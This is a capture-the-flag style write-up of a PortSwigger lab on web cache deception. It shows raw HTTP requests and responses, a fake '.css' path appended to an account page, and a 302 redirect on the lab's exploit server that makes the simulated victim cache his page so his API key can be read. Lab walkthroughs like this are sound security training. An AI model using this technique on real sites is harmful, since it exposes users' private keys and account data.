




# PortSwigger Web Security Academy - Exploiting path mapping for web cache deception

## Instructions



## Resolution

### What is Web Cache Deception?

Before we dive into the lab, let's quickly understand what Web Cache Deception is all about.  
Imagine you're at a popular coffee shop ☕. They have a main barista (the origin server) who makes every coffee fresh.  
But to speed things up, they also have a "quick pick-up" counter (the web cache) where they keep copies of the most frequently ordered drinks.  
Now, let's say you ask the barista for a "Latte with extra foam, for John." The barista makes it.  
The quick pick-up counter sees this and thinks, "Aha! Someone asked for 'Latte with extra foam, for John,' so I'll keep a copy here in case they ask again!"  

The deception happens when:

1. The "Order" is tricky: You ask for something like "Latte with extra foam, for John, and add a picture of a cat to the cup.jpg".  

2. The Barista's Logic: The main barista (server) might be smart enough to ignore the "add a picture of a cat to the cup.jpg" part because it doesn't make sense for a coffee order. They just make "Latte with extra foam, for John."

3. The Quick Pick-Up Counter's Mistake: But the quick pick-up counter (cache) isn't as smart. It just remembers the exact full order you gave: "Latte with extra foam, for John, and add a picture of a cat to the cup.jpg." So, it stores John's latte under that long, weird name.

4. The Attack: Now, if an attacker knows that weird name, they can go to the quick pick-up counter and ask for "Latte with extra foam, for John, and add a picture of a cat to the cup.jpg." And because it's cached, they get John's latte without the main barista ever knowing!

In our lab, "John's latte" is Carlos's private API key, and the "weird name" is a URL with a fake file extension!

### Okay but is this cache on the client side?

Not necessarily, especially for the type of Web Cache Deception we're exploiting here.  
Think of it like this:

Your computer's browser 💻 has its own cache (the "client-side cache"). It saves copies of things you visit often so pages load faster. This is like you keeping a few frequently used books right on your desk.  
However, there are also intermediate caches that sit between your browser and the actual web server. 
These are often:  

- CDN Caches (Content Delivery Network): Imagine these as huge warehouses full of popular items scattered all over the world. When you request something, it's served from the closest warehouse instead of the main factory.
- Proxy Caches: Sometimes, your company or even your internet provider might have a cache that all their users go through.

For Web Cache Deception, we are usually targeting these intermediate caches (like CDNs or server-side proxies). Why? Because when your sensitive content gets cached by one of these, anyone else going through that same cache can potentially retrieve it if they know the "cached address."

### Lab Goal 🎯

Our mission was to find the API key for the user `carlos`. We were given our own credentials (`wiener:peter`) to log in and explore the application.

#### Step 1: Logging In and Initial Recon 🔑

First things first, I logged into the lab using the provided credentials: `wiener:peter`. 

This took me to my "My Account" page, where I could see my own username (wiener) and my API key.



#### Step 2: Setting up Burp Suite 🛠️

To observe all the web traffic, I made sure my Burp Suite proxy was running and my browser was configured to send traffic through it. 
I kept the "Proxy" -> "Intercept" tab open, but I primarily used the "Repeater" tab for more control.

#### Step 3: Discovering the Path Mapping Discrepancy 🕵️‍♀️

This was the crucial discovery phase!
1. I sent a request for my "My Account" page to Burp Repeater. The original URL looked something like:
`https://[LAB-ID].web-security-academy.net/my-account`

2. In Repeater, I modified the URL by adding a fake file extension: `https://[LAB-ID].web-security-academy.net/my-account/anything.css` and I sent this modified request. 

```http
GET /my-account/anything.css HTTP/2
Host: 0aa900e30312d0338073120d00120014.web-security-academy.net
Cookie: session=HmWMGxueimPPRDObXEjOJvo5zr6r82nZ
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

3. The response was really interesting and worth analyzing further.

- See it here:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3824

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Exploiting path mapping for web cache deception</title>
    </head>
    <body>
        <script type="text/javascript" src="/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Exploiting path mapping for web cache deception</h2>
                            <a id='exploit-link' class='button' target='_blank' href='https://exploit-0a1f00eb0334d056803511d8018800c5.exploit-server.net'>Go to exploit server</a>
                            <button id='submitSolution' class='button' method='POST' path='/submitSolution' parameter='answer' >Submit solution</button>
                            <script src='/resources/labheader/js/submitSolution.js'></script>
                            <a class=link-back href='https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-path-mapping'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                            <a href="/logout">Log out</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>My Account</h1>
                    <div id=account-content>
                        <p>Your username is: wiener</p>
                        <div>Your API Key is: hx26JnpaqTUIigwhdIK1aXlklZTwNSL6</div><br/>
                        <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
                            <label>Email</label>
                            <input required type="email" name="email" value="">
                            <input required type="hidden" name="csrf" value="7NCZH6EhAIZfk77odplELVjlVz4GjlBt">
                            <button class='button' type='submit'> Update email </button>
                        </form>
                    </div>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```

- The Content-Type header was `text/html`, not `text/css`.  
- This confirmed that the origin server was ignoring the .css part and still serving my HTML account page.  
- The `X-Cache header` was `miss`, and `Age` was `0`.  
  This meant the cache didn't have this specific URL stored yet, so it went to the origin server.  
- The `Cache-Control: max-age=30` header told me that this response could be cached for 30 seconds.  

This definitely caught my attention. The server was flexible with its path mapping, but the cache would be strict about the full URL.

#### Step 4: Confirming the Cache Behavior 📦

To confirm the caching, I simply resent the exact same request with Burp Repeater: `https://[LAB-ID].web-security-academy.net/my-account/anything.css`

This time, the response headers were different 

- New response header

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 7
X-Cache: hit
Content-Length: 3824
[STRIPPED]
```

Let's analyze these new headers.  
- `X-Cache: hit` 🎉 Awesome :D  
- `Age: 7` 

This proved that the intermediate web cache had stored my "My Account" page content under the key `https://[LAB-ID].web-security-academy.net/my-account/anything.css`.  
If anyone else requested that URL within the 30-second window, they would get my cached profile!  

#### Step 5: Exploiting Carlos! 😈

Now it was time to get Carlos's API key.  
The strategy was to trick Carlos into making the same type of request, so his profile would get cached.  

1. Crafting the Malicious URL:  
Based on my findings, the URL that would cause Carlos's profile to be cached was: `https://[LAB-ID].web-security-academy.net/my-account/exploit.css` (I used `exploit.css` as the fake extension, but `anything.css` would work too).  

2. Using the Exploit Server for Automatic Redirection:  
This was a crucial step! Initially, I tried putting a clickable link in the Exploit Server's HTML body, but I realized that "Deliver exploit to victim" doesn't simulate a click on an internal link.  

The solution was to use a server-side redirect in the Exploit Server's "Head" section. This forces Carlos's browser to automatically navigate to our malicious URL as soon as he visits our exploit page.  

I set the "Head" of my Exploit Server to:
```http
HTTP/1.1 302 Found
Location: https://[YOUR_LAB_ID].web-security-academy.net/my-account/exploit.css
```
(Remember to replace [YOUR_LAB_ID] with your actual lab ID!)  

- Here is my actual exploit server:



I could not leave the body empty so I just added "test" but it can be anything.

3. Delivering the Exploit:  
After storing the redirect on the Exploit Server, I clicked "Deliver exploit to victim." This simulated Carlos's browser visiting my exploit page, which then immediately redirected him to `https://[LAB-ID].web-security-academy.net/my-account/exploit.css`.  
Since Carlos was logged in, the server returned his profile, and the intermediate cache stored it.

4. Retrieving Carlos's API Key:  
This was the final, exciting step!  
Immediately after delivering the exploit (to stay within the `max-age=30` cache window), I went back to Burp Repeater.  
I sent a GET request (that I had prepared in advance) to:`https://[LAB-ID].web-security-academy.net/my-account/exploit.css`  
And there it was!

- See my full request here:

```http
GET /my-account/exploit.css HTTP/2
Host: 0aa900e30312d0338073120d00120014.web-security-academy.net
Cookie: session=HmWMGxueimPPRDObXEjOJvo5zr6r82nZ
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

- See the response I had here

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 5
X-Cache: hit
Content-Length: 3824
[STRIPPED]
                    <h1>My Account</h1>
                    <div id=account-content>
                        <p>Your username is: carlos</p>
                        <div>Your API Key is: 0oj2xileyffBcLmwBRi8CaibSwCkPSAm</div><br/>
                        <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
                            <label>Email</label>
                            <input required type="email" name="email" value="">
                            <input required type="hidden" name="csrf" value="f52nRlM7soLzidieHIj5iSzyQKJ8MPZG">
                            <button class='button' type='submit'> Update email </button>
                        </form>
                    </div>
[STRIPPED]
```
I got Carlos API key!  

And I solved the lab.  
